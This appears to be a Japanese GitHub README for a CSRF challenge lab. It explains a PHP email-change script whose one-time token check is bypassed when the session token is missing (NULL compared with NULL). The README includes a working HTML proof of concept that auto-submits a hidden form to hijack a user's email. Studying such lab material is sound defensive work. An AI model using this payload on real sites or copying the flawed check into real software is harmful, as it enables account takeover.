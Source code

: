 # tokumaru-csrf-1st
https://blog.tokumaru.org/2018/11/csrf.html

## Run
```
$: make up
$: open http://poc.local.xss.moe
```

## 解説
問題のあるコードは`chgmail.php`。

```php
<?php // chgmail.php メールアドレス変更実行
  session_start();
  if (empty($_SESSION['id'])) {
    die('ログインしてください');
  }
  $id = $_SESSION['id']; // ユーザIDの取り出し
  if ($_POST['token'] !== $_SESSION['token']) { // ワンタイムトークン確認
    die('正規の画面からご使用ください');
  }
  unset($_SESSION['token']); // 使用済みトークンの削除
  $mail = $_POST['mail'];
  $_SESSION['mail'] = $mail;
?>
<body>
<?php echo htmlspecialchars($id, ENT_COMPAT, 'UTF-8'); ?>さんのメールアドレスを<?php
 echo htmlspecialchars($mail, ENT_COMPAT, 'UTF-8'); ?>に変更しました<br>
<a href="mypage.php">マイページ</a>
</body>
```

うち、問題のある箇所は以下の部分。

```php
if ($_POST['token'] !== $_SESSION['token']) { // ワンタイムトークン確認
  die('正規の画面からご使用ください');
}
```

- `$_SESSION['token']`の存在確認を行っていないため、`chgmailform.php`にアクセスしていない状態のログイン済ユーザが`chgmail.php`にアクセスする際、`$_SESSION['token']`の値は`NULL`となる。
- コード中で`$_POST['token']`との比較によってCSRF対策をおこなっているように見えるが、上記の条件を満たす場合は`$_POST['token']`を送信せずにCSRFを行えば`NULL`同士の比較となりチェックをバイパスできる。

## PoC
```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>PoC</title>
</head>
<body>
  <iframe id="frame" src="//chall.local.xss.moe/mypage.php" style="display:none"></iframe>
  <form id="form" method="POST" action="//chall.local.xss.moe/chgmail.php">
    <input type="hidden" name="mail" value="pwned@example.jp">
  </form>
  <script>
    let frame = document.getElementById('frame');

    frame.addEventListener('load', (e) => {
      let form = document.getElementById('form');
      form.submit();
    });
  </script>
</body>
</html>
```

※便宜上iframe経由で`mypage.php`を読み込ませているが実際の攻撃では必ずしも必要ではない。
